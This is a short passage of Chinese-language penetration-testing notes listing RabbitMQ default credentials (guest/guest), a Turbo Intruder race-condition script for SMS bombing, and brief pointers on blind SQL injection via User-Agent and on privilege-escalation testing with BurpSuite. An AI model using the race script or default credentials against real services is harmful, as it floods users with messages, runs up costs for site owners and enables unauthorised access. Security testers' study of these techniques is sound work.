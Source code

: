 ##### RabbitMQ

guest/guest

### 短信轰炸 race

**请求包：x-req:%s**

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=60,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    for i in range(60):
        engine.queue(target.req, target.baseInput, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

## 注入

### 老破小

!!! note "注意"
  开发人员如果接收到这类项目一定注意Sql！！！

一些很老、很破又是小站。或者长期不维护的系统。特征是页面较为简陋，排列不齐

可能存在User-agent等盲注方式

***

## 越权

### 工具

开发完了之后，可以试着用一些BurpSuite的工具进行自测，算是还不错的方法

- BurpSuite —— HAE ！！！
